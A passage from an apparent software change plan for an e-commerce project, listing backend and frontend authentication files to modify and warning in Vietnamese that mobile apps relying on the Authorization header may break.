- `Ecommerce.WebAPI/Controllers/AuthController.cs` [MODIFY]
- `Ecommerce.Infrastructure/Extensions/AddAuthenticationExtensions.cs` [MODIFY]
- `Ecommerce.WebAPI/Program.cs` [MODIFY]

**Frontend Dashboard:**
- `lib/axios.ts` [MODIFY]
- `services/auth-service.ts` [MODIFY]

**Frontend Client:**
- `lib/api.ts` [MODIFY]
- `services/auth-service.ts` [MODIFY]

### 8.3 Breaking Changes

> [!WARNING]
> **Cần thông báo cho mobile team nếu có:**
> - Mobile apps thường dùng Authorization header
> - Cần giữ backward compatibility hoặc update mobile cùng lúc
